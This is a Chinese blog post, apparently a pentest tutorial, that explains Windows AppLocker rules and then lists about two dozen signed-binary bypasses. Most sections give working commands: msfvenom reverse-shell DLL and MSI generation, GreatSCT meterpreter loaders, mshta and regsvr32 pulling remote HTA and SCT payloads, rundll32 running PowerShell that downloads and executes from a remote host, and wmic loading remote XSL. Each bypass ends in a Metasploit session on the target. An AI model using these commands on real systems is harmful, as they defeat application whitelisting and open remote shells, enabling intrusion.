有的人浅薄，有的人金玉其表败絮其中。有一天 你会遇到一个彩虹般绚烂的人，当你遇到这个人后，会觉得其他人都只是浮云而已。
文章首发合天智汇，博客备份一个
前言
在提权中我们经常会遇到目标开启了Applocker的情况，本文将以https://github.com/api0cradle/UltimateAppLockerByPassList为参考，讲解Applocker的绕过技术。
这不仅仅是一个applocker的bypass文章，也是一个白名单利用文章。
（若无特殊说明，实验环境一律为windows server 2012 r2）
什么是applocker
AppLocker即“应用程序控制策略”，是Windows 7系统中新增加的一项安全功能。在win7以上的系统中默认都集成了该功能，我们可以使用在services中启用Application Identity，然后在local security policy中找到Application Control Policies中看到Applocker选项。

applocker规则
默认的Applocker规则支持以下几种：
| 规则集合 | 关联的文件格式 |
|---|---|
| 可执行文件 | .exe、.com |
| 脚本 | .ps1、.bat、.cmd、.vbs、.js |
| Windows Installer 文件 | .msi、.msp、.mst |
| 封装应用和封装应用安装程序 | .appx |
| DLL 文件 | .dll、.ocx |
.appx并不是所有的applocker都会存在，应根据windows版本来，在win10上，创建applocker规则后会在C:\Windows\System32\AppLocker生产相应的.applocker文件。
applocker规则条件
规则条件是用于帮助 AppLocker 标识要应用规则的应用的标准。三个主要规则条件为发布者、路径和文件哈希。
发布者：基于应用的数字签名标识它
路径：通过应用在计算机文件系统中或网络上的位置来标识它
文件哈希：表示已标识文件的系统计算的加密哈希

AppLocker 默认规则
在你创建了一个applocker规则后，系统会默认询问你是否添加一条默认规则，如下图所示：

每个规则所对应的默认规则如下：
可执行的默认规则类型包括：
允许本地 Administrators 组的成员运行所有应用。
允许 Everyone 组的成员运行 Windows 文件夹中的应用。
允许 Everyone 组的成员运行 Program Files 文件夹中的应用。
脚本默认规则类型包括：
允许本地 Administrators 组的成员运行所有脚本。
允许 Everyone 组的成员运行 Program Files 文件夹中的脚本。
允许 Everyone 组的成员运行 Windows 文件夹中的脚本。
Windows Installer 默认规则类型包括：
允许本地 Administrators 组的成员运行所有 Windows Installer 文件。
允许 Everyone 组的成员运行所有已进行数字签名的 Windows Installer 文件。
允许 Everyone 组的成员运行 Windows\Installer 文件夹中的所有 Windows Installer 文件。
DLL 默认规则类型：
允许本地 Administrators 组的成员运行所有 DLL。
允许 Everyone 组的成员运行 Program Files 文件夹中的 DLL。
允许 Everyone 组的成员运行 Windows 文件夹中的 DLL。
封装应用默认规则类型：
- 允许 Everyone 组的成员安装和运行所有已签名的封装应用和封装应用安装程序
AppLocker 规则行为
可将规则配置为使用允许或拒绝操作：
允许。你可以指定允许在你的环境中运行的文件以及所针对的用户或用户组。你还可以配置例外以标识从规则中排除的文件。
拒绝。你可以指定 not 允许在你的环境中运行的文件以及所针对的用户或用户组。你还可以配置例外以标识从规则中排除的文件。

创建一个applocker规则
讲了那么多，我们以禁止在桌面上运行exe文件为例，创建一条规则。创建完大体如下：

运行exe测试：

系统就会阻止我们运行
bypass Applocker
Installutil.exe
InstallUtil是.NET Framework的一部分，是一个命令行程序，它使用户可以通过命令提示符快速安装和卸载应用程序。由于此实用程序是Microsoft签名的二进制文件，因此可以用来绕过AppLocker限制来运行任何.NET可执行文件。该实用程序也位于Windows文件夹内，该文件夹不会应用AppLocker策略，因为需要执行Windows文件夹的内容才能使系统正常运行。
首先我们使用WhiteListEvasion(https://github.com/khr0x40sh/WhiteListEvasion)生成一个模板
1 | python InstallUtil.py --cs_file pentestlab.cs |

上面的命令将生成一个C＃模板，其中将包含Metasploit ShellCode。
将生成后的文件放到目标中使用下面的方法执行：
1 | C:\Windows\Microsoft.NET\Framework\v2.0.50727\InstallUtil.exe /logfile= /LogToConsole=false /U /root/payload.exe |
当然你也可以是先使用msf生成一个csharp的payload，然后替换模板中的shellcode，然后将cs文件传到目标机。
然后用csc编译我们的脚本：
1 | C:\Windows\Microsoft.NET\Framework\v2.0.50727\csc.exe /out:exeshell.exe exeshell.cs |

此时我们执行我们的文件试试：

被规则拦截，那么我们使用
1 | C:\Windows\Microsoft.NET\Framework\v2.0.50727\InstallUtil.exe /logfile= /LogToConsole=false /U exeshell.exe |
绕过

msf成功上线

在msf中也有使用InstallUtil.exe进行applocker的bypass模块。
1 | exploit/windows/local/applocker_bypass |
原理是一样的

附带常见的路径：
- C:\Windows\Microsoft.NET\Framework\v2.0.50727\InstallUtil.exe
- C:\Windows\Microsoft.NET\Framework64\v2.0.50727\InstallUtil.exe
- C:\Windows\Microsoft.NET\Framework\v4.0.30319\InstallUtil.exe
- C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe
Msbuild.exe
MSBuild.exe（Microsoft Build Engine）是Visual Studio使用的软件构建平台。它采用XML格式的项目文件，这些文件定义了构建各种平台和配置的要求。（引用：MSDN MSBuild）
我们可以使用MSBuild通过受信任的Windows实用工具代理代码执行。.NET版本4中引入的MSBuild内联任务功能允许将C＃代码插入XML项目文件中。内联任务MSBuild将编译并执行内联任务。MSBuild.exe是一个经过签名的Microsoft二进制文件，因此，以这种方式使用它时，它可以执行任意代码，并绕过配置为允许MSBuild.exe执行的应用程序白名单防护.
我们这里直接使用GreatSCT生成一个xml文件。
1 | ./GreatSCT.py --ip 192.168.0.106 --port 4444 -t bypass -p msbuild/meterpreter/rev_tcp.py |

并且会给我们生成一个rc文件，我们可以使用msfconsole -r 直接启动msf
然后使用msbuild执行，

msf上线：

当然你也可以是使用msf生成一个c#的shellcode然后使用三好学生师傅的模板加载：
https://github.com/3gstudent/msbuild-inline-task/blob/master/executes%20shellcode.xml
注意将后缀名改为.csproj
除了反弹shell以外我们还可以用它来绕过powershell的限制。

代码如下：
1 | <Project ToolsVersion="4.0" xmlns="http://schemas.microsoft.com/developer/msbuild/2003"> |
原地址：https://github.com/3gstudent/msbuild-inline-task/blob/master/executes%20PowerShellCommands.xml

成功绕过对powershell的限制。
常见路径如下：
- C:\Windows\Microsoft.NET\Framework\v2.0.50727\Msbuild.exe
- C:\Windows\Microsoft.NET\Framework64\v2.0.50727\Msbuild.exe
- C:\Windows\Microsoft.NET\Framework\v3.5\Msbuild.exe
- C:\Windows\Microsoft.NET\Framework64\v3.5\Msbuild.exe
- C:\Windows\Microsoft.NET\Framework\v4.0.30319\Msbuild.exe
- C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Msbuild.exe
Mshta.exe
mshta.exe是微软Windows操作系统相关程序，英文全称Microsoft HTML Application，可翻译为微软超文本标记语言应用，用于执行.HTA文件。默认已集成在环境变量中。
使用Mshta的方式有很多，我们这里使用msf的exploit/windows/misc/hta_server模块进行测试：
1 | use exploit/windows/misc/hta_server |

目标机执行：
1 | mshta.exe http://192.168.0.106:8080/JR1gb3TO6.hta |
即可上线。
除了这种方法hta还可以使用cobaltstrike
、Setoolkit、Magic unicorn、Empire、CactusTorch、Koadic、Great SCT等进行上线。
除了本地文件，mshta还支持远程下载的方式执行payload，比如：
1 | mshta.exe javascript:a=GetObject("script:https://gist.github.com/someone/something.sct").Exec();close(); |
除了以上的方式，mshta可以用用来执行powershell：
1 | <HTML> |
即使applocker已经禁止powershell执行了

Presentationhost.exe
Presentationhost.exe是一个内置的Windows可执行文件，用于运行XAML浏览器应用程序（即.xbap文件）
具体原理这里就不再赘述了，我们直接将网上公布的poc拿过来，下载地址：
1 | https://github.com/jpginc/xbapAppWhitelistBypassPOC/tree/master/powershell/bin/Debug |

可以看到Presentationhost.exe是可以运行的，但是给出的poc却执行失败了，不知道是不是我版本的问题，根据网上各个大佬复现的情况来看，这个方法的确不是很好，即使成功，也会在调用其他文件时被applocker给拦截掉。
常见路径如下：
- c:\windows\system32\PresentationHost.exe
- c:\windows\sysWOW64\PresentationHost.exe
Regasm.exe、Regsvcs.exe
Regsvcs和Regasm是Windows命令行实用程序，用于注册.NET组件对象模型（COM）程序集。两者都是由Microsoft进行数字签名的。
我们使用ＧreatSct的 regasm/meterpreter/模块生产我们所需要的文件。


然后手动编译：
1 | C:\Windows\Microsoft.NET\Framework\v4.0.30319\csc.exe /r:System.EnterpriseServices.dll /target:library payload.cs |
然后执行：
1 | C:\Windows\Microsoft.NET\Framework\v4.0.30319\regasm.exe /U C:\payload1.dll |
msf即可收到回话。
Regsvcs的执行方式也一样。两者都会发起反弹连接，触发事件ID 3
文件路径如下：
- C:\Windows\Microsoft.NET\Framework\v2.0.50727\regasm.exe
- C:\Windows\Microsoft.NET\Framework64\v2.0.50727\regasm.exe
- C:\Windows\Microsoft.NET\Framework\v4.0.30319\regasm.exe
- C:\Windows\Microsoft.NET\Framework64\v4.0.30319\regasm.exe
- C:\Windows\Microsoft.NET\Framework\v2.0.50727\regsvcs.exe
- C:\Windows\Microsoft.NET\Framework64\v2.0.50727\regsvcs.exe
- C:\Windows\Microsoft.NET\Framework\v4.0.30319\regsvcs.exe
- C:\Windows\Microsoft.NET\Framework64\v4.0.30319\regsvcs.exe
Bginfo
Bginfo是一款强大的Windows系统信息显示工具.而且可以执行vbs，此时我们便可以使用它绕过一些限制。
1 | strProgram = "powershell.exe" |
新建项哪里选择vbs：

悲惨的是绕过失败了

除了这种之外，我们也可以用https://github.com/3gstudent/bgi-creater来生成一个BgInfo的bgi配置文件。
然后这样加载：
1 | bginfo.exe test1.bgi /timer:0 /nolicprompt /silent |
成功绕过applocker…
当然除了这样你也可以用它来加载一个msf的shell，就看个人发挥了。
Cdb.exe
cdb是一个windows下的调试器，具体的参数可以查看：
https://docs.microsoft.com/en-us/windows-hardware/drivers/debugger/cdb-command-line-options
一般如果安装后存在的路径如下：
- C:\Program Files (x86)\Windows Kits\10\Debuggers\x64\cdb.exe
- C:\Program Files (x86)\Windows Kits\10\Debuggers\x86\cdb.exe
我们可以使用下面的命令执行我们的shellcode：
1 | cdb.exe -cf x64_calc.wds -o notepad.exe |
即在主机的notepad.exe进程中执行shellcode
payload地址如下：
https://gist.github.com/mattifestation/94e2b0a9e3fe1ac0a433b5c3e6bd0bda
Cmstp.exe
CMSTP是一个与Microsoft连接管理器配置文件安装程序关联的二进制文件。可以执行inf和dll的文件，且拥有微软签名。该文件不仅可以绕过applocker还可以用来绕过uac。
文件位置为：
1 | C:\Windows\System32\cmstp.exe |
我们先使用msf生成一个dll文件：
1 | msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.0.106 LPORT=4444 -f dll > pentest.dll |
然后创建一个inf文件，里面包含我们的dll的本地位置或者网络位置，大体写法如下：
1 | [version] |
然后执行：
1 | C:\Users\Administrator\Desktop>C:\Windows\System32\cmstp.exe /s c:\Windows\Syste |
msf即可收到会话。

Control.exe
Control.exe是windows下的控制面板工具，我们同样可以使用他来绕过一些applocker。
它可以调用cpl文件，我们可以使用修改注册表的方法来实现启动控制面板即调用我们恶意程序的目的（默认用户可以修改），具体命令如下：
1 | reg add "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Control Panel\Cpls" |
关于cpl的制作我们可以实现生成一个dll文件，然后使用type的ads流来生成。
除了上面的命令还可以使用下面的脚本实现一样的效果：
1 | const HKEY_CURRENT_USER = &H80000001 |
1 | var obj = WScript.CreateObject("WScript.Shell"); |
假如我们的dll文件是使用以下命令生成的：
1 | msfvenom -p windows/exec cmd="cmd.exe" -f dll -o emd.dll |
那么在我们调用控制面板时，就会弹出cmd窗口。

Csi.exe、Dnx.exe
这两个程序差不多，都是可以运行c#代码，我们可以利用这两个程序来绕过一些限制。
唯一不同的是dnx需要一个json文件，json的创建可以参考
https://docs.microsoft.com/zh-cn/archive/blogs/sujitdmello/step-by-step-installation-instructions-for-getting-dnx-on-your-windows-machine
大体如下：
1 | { |
然后我们就可以用csi.exe或者dnx.exe来运行我们的代码，且新进程是使用csi、dnx来运行的。

fsi.exe
fsi.exe是一个用来执行f#的工具，我们同样可以使用它来绕过applocker。
f#的后缀为.fsscript，内容如下：
1 | #r @"C:\Windows\Microsoft.NET\assembly\GAC_MSIL\System.Management.Automation\v4.0_3.0.0.0__31bf3856ad364e35\System.Management.Automation.dll" |

Ie4unit.exe
IE4Uinit一般与Active Setup结合使用，并在登录过程中首次创建用户配置文件时（或在每次配置强制配置文件时）运行。详细介绍为：
以及部分用法：

且会调用system32或SysWOW64下面的ieuinit.inf。我们进行一些测试，来用它绕过对calc的限制。
先把他们放到同一目录，因为在system中我们可能不能编辑对应的文件，但是我们可以将它复制出来进行编辑或者替换，而且Ie4unit.exe可以默认调用自己目录下的inf

我们找到MSIE4RegisterOCX.Windows7，这个是我们可以放置我们scrobj.dll和SCT URL的地方。

执行ie4uinit.exe -BaseSettings，绕过applocker对calc的限制，弹出计算机。

不过这个对版本有点限制，不同计算机不一定都能成功，具体原因不知道。
Ieexec.exe
IEExec.exe应用程序是.NET Framework附带Microsoft .NET Framework应用程序。可以用IEExec.exe运行使用URL启动的其他托管应用程序。
我们先使用msf生成我们的shellcode

然后使用下面的加载器编译我们的shellcode：
1 | using System; |
然后MSF设置监听。

使用python随意设置一个快捷的http服务器，目标机执行：
1 | C:\Windows\Microsoft.NET\Framework64\v2.0.50727>caspol.exe -s off |
目标即可返回一个shell回来，caspol.exe -s off是为了避免我们的木马被标记为不受信任的软件。
InfDefaultInstall.exe
InfDefaultInstall.exe是一个用来进行inf安装的工具，具有微软签名，存在路径为：
- C:\Windows\System32\Infdefaultinstall.exe
- C:\Windows\SysWOW64\Infdefaultinstall.exe
我们也可以用它来绕过一些限制。用法就是直接该文件后面跟你的inf文件即可。
它的执行流程如下：

作者给出的poc地址如下：
https://gist.github.com/KyleHanslovan/5e0f00d331984c1fb5be32c40f3b265a
思路也和图中那样，使用shady.inf去调用远程的sct后门。
不过他的调用需要更高的权限，我在win10下运行的截图：

Mavinject.exe
Mavinject是win10上面自带的windows组件，我们可以用它来进行dll注入，并绕过部分限制。
用法如下：
1 | mavinject32.exe <PID> <PATH DLL> |
常见路径如下：
- C:\Program Files\Common Files\microsoft shared\ClickToRun\MavInject32.exe
- C:\Windows\System32\mavinject.exe
- C:\Windows\SysWOW64\mavinject.exe
但是我本地复现的时候并没有成功注入，但是也没有什么提示，不知道具体原因是什么，版本为：
10.0.15063.0 (WinBuild.160101.0800)
应该是可以成功注入的，附上一张推特大佬成功的图。

Msdeploy.exe
Msdeploy.exe是微软Web Deploy 中的一个组件，Web Deploy 主要是方便用户进行iis的迁移、搭建的工具。其中的Msdeploy.exe可以用来绕过applocker
如果安装了的话，默认路径为：
1 | C:\Program Files (x86)\IIS\Microsoft Web Deploy V3 |
我们以绕过bat脚本为例，看一下他的用法：

1 | msdeploy.exe -verb:sync -source:RunCommand -dest:runCommand="C:\xxx\xx.bat" |
结果我这个版本的系统绕过失败…

有兴趣的可以多尝试几个系统。
MSIEXEC
MSIEXEC是Microsoft的应用程序，可用于从命令行安装或配置产品。这个其实不是很陌生的了，我之前也写过用它来进行提权的文章。我们假设可以执行msi文件，用它来绕过applocker对powershell的限制。
先用msf生成一个msi文件。
1 | msfvenom -f msi -p windows/exec CMD=powershell.exe > powershell.msi |

windows下执行：

成功绕过。
msxsl.exe
msxsl.exe是一个xml的转换器，带有微软数字签名。下载地址如下：
https://www.microsoft.com/en-us/download/details.aspx?id=21714

我们使用3gstudent来尝试绕过applocker对calc的限制，
customers.xml:
1 | <?xml version="1.0"?> |
script.xml:
1 | <?xml version='1.0'?> |
成功绕过：

当然也可以执行我们的shellcode，具体参考：
https://raw.githubusercontent.com/3gstudent/Use-msxsl-to-bypass-AppLocker/master/shellcode.xml
odbcconf.exe
ODBCCONF.exe是一个命令行工具，用来配置ODBC驱动程序和数据源名称。它可以执行rsp文件，并可以用来绕过applocker。
用法如下：
1 | odbcconf -f file.rsp |
文件路径：
- c:\windows\system32\odbcconf.exe
- c:\windows\sysWOW64\odbcconf.exe
具体的文件地址如下：
https://github.com/woanware/application-restriction-bypasses/tree/master/Bin/Net4.0/odbcconf

内置的dll已被执行,msf可以直接上线。
Regsvr32.exe
regsvr32是Windows命令行实用程序，用于将.dll文件和ActiveX控件注册和注销到注册表中。
文件位置：
- C:\Windows\System32\regsvr32.exe
- C:\Windows\SysWOW64\regsvr32.exe
下面为大家演示，绕过applocker上线。


scT文件内容如下：
1 | <?XML version="1.0"?> |
各参数的含义：
- 静默不显示任何消息// / s
- 不调用DLL注册服务器// / n
- 要使用另一个IP地址，因为它不会调用DLL注册服务器// / i
- 使用取消注册方法// / u
除了本地执行，它还支持远程加载：
1 | regsvr32 /u /n /s /i:http://ip:port/payload.sct scrobj.dll |
sct我们使用ＧreatSct生成即可。
Rundll32.exe
Rundll32是一个Microsoft二进制文件，可以执行DLL文件中的代码。由于此实用程序是Windows操作系统的一部分，因此可以用作绕过AppLocker规则或软件限制策略的方法
先生成我们的payload：

目标机执行：
1
rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();new%20ActiveXObject("WScript.Shell").Run("powershell -nop -exec bypass -c IEX (New-Object Net.WebClient).DownloadString('http://ip:port/');"
上线：

除了远程之外，也可以本地上线：
1 | rundll32 shell32.dll,Control_RunDLL C:\Users\pentestlab.dll |
也可以用来绕过对某些软件的限制，比如弹个cmd：

Winword.exe
windows下的word的文件，可用来调用dll，用法如下：
1 |
|
因为比较简单就不过多演示了。
Wmic.exe
WMIC是扩展WMI（Windows Management Instrumentation，Windows管理规范），提供了从命令行接口和批命令脚本执行系统管理的支持。
我们同样可以用它来绕过applocker，比如简单的执行一个calc。
1 | wmic.exe process call create calc |

存在的路径如下：
- c:\windows\system32\wbem\wmic.exe
- c:\windows\sysWOW64\wbem\wmic.exe
也可以使用下面的方法执行远程文件：
1 | wmic.exe process get brief /format:"https://raw.githubusercontent.com/api0cradle/LOLBAS/master/OSBinaries/Payload/Wmic_calc.xsl" |